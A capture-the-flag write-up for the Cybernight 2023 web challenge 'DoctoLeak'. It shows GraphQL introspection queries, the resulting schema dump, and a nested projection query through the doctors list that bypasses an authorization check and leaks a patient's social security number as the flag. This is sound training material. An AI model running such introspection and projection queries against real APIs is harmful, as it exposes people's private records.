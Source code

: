 ```yaml
---
title: "DoctoLeak"
date: 2023-11-25T15:56:22+01:00
draft: false
tags: ['Web']
categories:
  - 'Writeups'
  - 'Cybernight 2023'
---
```


# Cybernight 2023 - DoctoLeak
---

## Category

> Web

## Description

> Je dois trouver le numéro de sécurité sociale du Patient 0 !
>
> C'est une question de vie ou de mort...

## Link

[DoctoLeak](http://doctoleak2.chall.malicecyber.com/)

## Difficulty

**MEDIUM** - 100 points

- Author: **Sysdream**
---

![img.png](img.png)

## Write up

The first interesting thing I found looking to the website was the link as the bottom: [Check our API](https://doctoleak2.chall.malicecyber.com/graphql)

Which leads to a **/graphql** page. At this point, I was sure it was all about exploiting some confidentiality issue in a graphql query.

Using the book from [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql) I was able to run some Introspection inside Burpsuite repeater.

I recover the schema using query like ``?query={__schema{types{name,fields{name}}}}``:

```json
{"data":{"__schema":{"types":[{"name":"Query","fields":[{"name":"doctor"},{"name":"doctors"},{"name":"patients"},{"name":"patient"},{"name":"allrendezvous"},{"name":"rendezvous"}]},{"name":"String","fields":null},{"name":"Doctor","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"specialty"},{"name":"patients"},{"name":"rendezvous"},{"name":"email"},{"name":"password"}]},{"name":"ID","fields":null},{"name":"Patient","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"doctor"},{"name":"ssn"}]},{"name":"Rendezvous","fields":[{"name":"id"},{"name":"date"},{"name":"confirmed"}]},{"name":"Boolean","fields":null},{"name":"JSON","fields":null},{"name":"Mutation","fields":[{"name":"signIn"}]},{"name":"Token","fields":[{"name":"token"}]},{"name":"__Schema","fields":[{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"}]},{"name":"__TypeKind","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null},{"name":"CacheControlScope","fields":null},{"name":"Upload","fields":null},{"name":"Int","fields":null}]}}}
```
I could understand that the database stores some doctors, patients, rendezvous, etc.

I tried to directly query the patient with id:0 with ``?query={patient(id:0){ssn}}`` but it returns an **UNAUTHORIZED** error, because we were not authenticated.

A mutation signIn exists, avec Doctors have a password field, so maybe we could manage to recover a password? I did not succeed in this way.

However, if we take a closer look at the **Doctor** type:

```json
{"name":"Doctor","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"specialty"},{"name":"patients"},{"name":"rendezvous"},{"name":"email"},{"name":"password"}]}
```

A doctor possessed id, a firstName, but most importantly: **a list of patients**

Through a Doctor query, we can possibly manage to search for patients ssn.

Happily (or not?) this complete request was availible on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#extract-data-using-projections), using a **projection** attack.

We use an option inside a list of doctors, to search for **patients.ssn**:

{{< image src="img_1.png" caption="SSN leaks" title="SSN leaks" alt="SSN leaks" >}}

Here is our first leak! I could not manage to attach the id of the patient with the ssn, it returned the error ``Cannot return null for non-nullable field Patient.id``

However, our previous request contains that data at the bottom:

```json
{"firstName":"Admin","lastName":"Admin","id":"634d5b00dae927003e214578","patients":[{"ssn":"b16cff8b-4a5a-41c8-8545-d9880fd7aae5"}]
```

The ssn was the one we were looking for.

{{< admonition type=success title="Flag" open=false >}}
:triangular_flag_on_post: `MALICE{b16cff8b-4a5a-41c8-8545-d9880fd7aae5}`
{{< /admonition >}}
